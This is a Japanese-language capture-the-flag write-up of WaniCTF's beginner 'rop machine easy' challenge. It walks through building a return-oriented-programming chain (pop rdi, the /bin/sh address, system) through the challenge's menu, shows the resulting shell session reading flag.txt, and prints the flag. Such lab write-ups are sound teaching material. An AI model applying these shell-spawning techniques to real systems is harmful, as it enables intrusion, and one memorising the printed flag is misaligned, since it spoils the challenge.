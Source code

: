 # rop machine easy (189pt Easy)

# 問題文

`nc rop-easy.pwn.wanictf.org 9003`

## ヒント
- ropでsystem("/bin/sh")を実行して下さい。
- "/bin/sh"のアドレスは提供されています
- rop machineの使い方->wani-hackase/rop-machine

## 使用ツール例
- netcat (nc)

## gccのセキュリティ保護
- Partial RELocation ReadOnly (RELRO)
- Stack Smash Protection (SSP)有効
- No eXecute bit(NX)有効
- Position Independent Executable (PIE)無効

# やったこと

```
$ nc rop-easy.pwn.wanictf.org 9003

"/bin/sh" address is 0x404070

[menu]
1. append hex value
2. append "pop rdi; ret" addr
3. append "system" addr
8. show menu (this one)
9. show rop_arena
0. execute rop
> 
```

スタックに命令を追加して最後に実行すれば良いっぽいです．

https://www.mztn.org/lxasm64/x86_x64_table.html
等のページを見ると，
第一引数はrdiレジスタ入れると良いっぽいです．

```
$ nc rop-easy.pwn.wanictf.org 9003

"/bin/sh" address is 0x404070

...

> 0
     rop_arena
+--------------------+
| pop rdi; ret       |<- rop start
+--------------------+
| 0x0000000000404070 |
+--------------------+
| system             |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{this-is-simple-return-oriented-programming}
```

pop rdiでスタック上の0x404070をrdiレジスタに移動させます．
これで第一引数に0x404070("/bin/sh")を指定した状態でsystemを実行できます．

実行するとsystem("/bin/sh")が実行されてshellが起動しました．
flag.txtを見るとフラグがありました．

# フラグ
FLAG{this-is-simple-return-oriented-programming}

# メモ
pwnは超初心者なので間違ってるところがあるかも．
